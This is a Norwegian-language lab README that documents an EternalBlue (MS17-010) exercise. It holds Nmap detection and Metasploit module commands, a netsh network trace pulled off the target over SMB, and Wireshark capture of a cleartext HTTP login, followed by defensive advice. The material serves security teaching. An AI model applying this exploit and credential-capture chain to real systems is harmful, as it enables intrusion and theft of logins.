# MS17-010 (EternalBlue) + nettverksspor — lab

Fiktiv, lukket lab der jeg:
1) påviser **MS17-010** (EternalBlue) mot en Windows-vert,
2) demonstrerer exploit-flyten i Metasploit,
3) samler **Windows nettverksspor** med `netsh trace`,
4) eksporterer/konverterer sporet og verifiserer i **Wireshark** at en HTTP-innlogging er synlig i klartekst.

> **Etikk:** Kun lab/demo i eget miljø. Ikke test mot systemer du ikke eier eller har eksplisitt tillatelse til. Sladd brukernavn/passord, tokens og interne IP-er før publisering.

---

## Mål
- Verifisere sårbar **SMBv1 / MS17-010** på målmaskin.
- Vise exploit-arbeidsflyt (funn → modulvalg → kjøring) i Metasploit.
- Samle og hente ut **nettverksspor** fra Windows (`.etl`) og konvertere til **pcap/pcapng**.
- Dokumentere i **Wireshark** at HTTP-innlogging fanges når TLS ikke brukes.

## Laboppsett (eksempel)
- **Angriper:** Kali Linux  
- **Mål:** Windows-vert med SMBv1 (sårbar for MS17-010)  
- **Bruker-VM:** Windows-VM som besøker intern webapp  
- **Verktøy:** Nmap, Metasploit, `netsh trace`, etl2pcapng, editcap, Wireshark

---

## Kontekst
**Angriper-IP**


**Webapp – landingsside**


**Webapp – innlogget oversikt**


**Windows (mål/klient) – oversikt**


---

## A) Sårbarhet og utnyttelse

**Nmap MS17-010 (NSE) – VULNERABLE**
```bash
nmap --script smb-vuln* -p 445 192.168.x.x
```


**Metasploit i gang + modulvalg**
```bash
msfconsole
search eternalblue
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.x.x
```
  


> *Hvis du har skjermbilde av selve «session opened», kan det legges inn her senere som `images/msf-eb-run-success.png`.*

---

## B) Nettverksspor på Windows (innebygd)

**Start sporing**
```cmd
netsh trace start capture=yes tracefile=C:\50309\net_trc.etl level=verbose
```


**Stopp sporing**
```cmd
netsh trace stop
```


---

## C) Eksfil og konvertering

**Hent ut `.etl` fra Windows**
- Eksempel via SMB fra Kali:
```bash
smbclient //192.168.x.x/50309 -U Administrator
get net_trc.etl
```


**Konverter `.etl` → `.pcapng` (Windows etl2pcapng)**
```powershell
.\etl2pcapng.exe C:\...\net_trc.etl C:\...\net_trc.pcapng
```


**(Valgfritt) Konverter `.pcapng` → `.pcap` for kompatibilitet**
```bash
editcap -F pcap ~/Desktop/net_trc.pcapng ~/Desktop/net_trc.pcap
```


---

## D) Analyse i Wireshark

Filtrer på HTTP og finn POST-forespørsel som inneholder innloggingsdata (demo uten TLS):


---

## Hvorfor dette fungerer (kort)
- **MS17-010 / EternalBlue** misbruker en sårbarhet i SMBv1 for fjernkodekjøring.  
- `netsh trace` samler rå nettverkshendelser på Windows i `.etl`. Med **etl2pcapng** og **editcap** kan vi åpne sporet i **Wireshark** og observere **HTTP POST**-innhold når trafikken ikke er kryptert.

## Forsvar (kort)
- Deaktiver **SMBv1** og patch **MS17-010**.  
- Segmenter nettverk og begrens SMB til nødvendige soner.  
- Tving **HTTPS**; benytt **EDR/IDS** og overvåk mistenkelig SMB-trafikk.  
- Regelmessig sårbarhetsskanning og patchhygiene.

## Lisens
MIT
